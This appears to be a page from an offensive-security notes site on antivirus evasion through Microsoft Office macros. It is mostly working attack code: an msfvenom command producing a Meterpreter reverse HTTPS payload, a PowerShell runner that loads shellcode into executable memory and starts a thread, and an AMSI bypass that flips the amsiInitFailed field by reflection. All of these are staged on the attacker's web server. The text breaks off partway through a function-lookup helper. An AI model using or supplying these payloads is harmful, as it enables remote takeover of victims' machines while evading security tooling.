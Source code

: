 ```yaml
---
title: Microsoft Office Macro
parent: Antivirus Evasion
layout: default
nav_order: 3
---
```


## Word Macro to Powershell (AMSI Included):
[Theory](#theory)

1\. Generate shellcode using:\
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=PORT EXITFUNC=thread -f ps1`


2\. Use the shellcode above and put it in /var/www/html/shell3.txt with the following content:

```powershell
$Shell32 = @"
using System;
using System.Runtime.InteropServices;

public class Shell32{
[DllImport("Kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, UIntPtr dwSize, uint flAllocationType, uint flProtect);

[DllImport("Kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("Kernel32.dll", SetLastError = true)]
public static extern uint WaitForSingleObject(IntPtr hHandle, uint dwMilliseconds);
}
"@

Add-Type $Shell32

[Byte[]] $buf = SHELLCODE HERE
$size = $buf.length
$sizeUIntPtr = New-Object System.UIntPtr $size
[IntPtr]$addr = [Shell32]::VirtualAlloc(0,$sizeUIntPtr,0x3000,0x40);
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
$thandle=[Shell32]::CreateThread(0,0,$addr,0,0,0);
[Shell32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

3\. Put the following as /var/www/html/shell2.txt (AMSI bypass):

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*ailed") {$f=$e}};$f.SetValue($null, (1 -eq 1))

function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | 
    Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].
      Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
```